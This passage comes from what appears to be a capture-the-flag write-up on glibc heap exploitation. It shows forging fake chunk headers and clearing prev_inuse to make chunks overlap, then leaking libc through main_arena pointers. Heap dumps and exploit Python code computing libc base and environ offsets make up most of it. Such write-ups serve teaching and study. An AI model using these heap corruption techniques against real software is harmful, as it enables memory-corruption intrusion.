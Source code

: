 
Previous size was set to 0x240 and the 0x121 original size was set to 0x100, clearing the prev\_inuse bit and reducing the size of C. Note that we now have fulfilled all of the criterions. There is fake 0x241 sized chunk (2), we set previous size and cleared prev\_inuse (1) and created a another fake header after C because we reduced its size (3).

After coalescing:

```
0x55dec580c4d0:    0x0000000000000000  0x0000000000000131
0x55dec580c4e0:    0x0000000000000000  0x0000000000000341
0x55dec580c4f0:    0x00007f9b7aa87ca0  0x00007f9b7aa87ca0
0x55dec580c500:    0x414141414141410a  0x4141414141414141
...
0x55dec580c5f0:    0x4141414141414141  0x4141414141414141
0x55dec580c600:    0x4141414141414141  0x0000000000000121
0x55dec580c610:    0x4242424242424242  0x4242424242424242
...
0x55dec580c710:    0x4242424242424242  0x4242424242424242
0x55dec580c720:    0x0000000000000240  0x0000000000000100
0x55dec580c730:    0x4343434343434343  0x4343434343434343
...
0x55dec580c810:    0x4343434343434343  0x4343434343434343
0x55dec580c820:    0x0000000000000340  0x0000000000000020
```

Note that the size has changed to 0x341, indicating that B was overlapped and we have one big free chunk. We will now abuse this to leak libc.

## Leaking Libc

As we have an overlapped chunk, we can allocate a new chunk at the location where A originally was. This will shrink the big free chunk, which leads to its main\_arena pointers being pushed down on the heap, into the area where B is still allocated:

```python
add(0x110)
show(1)
p.recvuntil (": ")
main_arena = u64(p.recvn(6).ljust (8 , b'\x00'))
libc_base = main_arena - 0x1E4CA0
libc_environ = libc_base + 0x1E7D60 
free(0)
```

```
0x564822c474d0:    0x0000000000000000  0x0000000000000131
0x564822c474e0:    0x0000000000000000  0x0000000000000121
0x564822c474f0:    0x00007f3653e39f0a  0x00007f3653e39fd0
0x564822c47500:    0x414141414141410a  0x4141414141414141
...
0x564822c47600:    0x4141414141414141  0x0000000000000221
0x564822c47610:    0x00007f3653e39ca0  0x00007f3653e39ca0
0x564822c47620:    0x4242424242424242  0x4242424242424242
```
